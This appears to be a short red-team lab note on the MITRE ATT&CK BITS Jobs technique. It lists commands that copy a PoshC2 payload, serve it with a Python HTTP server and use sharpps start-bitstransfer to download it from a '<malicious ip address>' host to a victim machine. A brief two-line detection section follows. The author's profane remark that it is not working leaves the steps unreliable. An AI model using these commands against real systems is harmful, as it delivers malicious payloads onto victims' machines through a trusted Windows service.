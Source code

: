# [BITS Jobs](https://attack.mitre.org/techniques/T1197/)

## Exploit Syntax: 

1. In Parrot terminal run the following commands
    ```sh
    mkdir /tmp/Lincoler
    cd /tmp/Lincoler
    cp /var/poshc2/<project name>/payloads/<payload name> Abrodolph.exe
    python3 -m http.server 12137
    ```

2.  In posh, run
    ```sh
    sharpps start-bitstransfer -source http://<malicious ip address>:12137/Abrodolph.exe -destination <victim save location>
    ```
**SHIT AIN'T FUCKING WORKING GOD DAMMIT**
---
## Detection Method
* Monitor for new BITS tasks being created
* Monitor network activity generated by BITS over HTTP(S)
## Resources    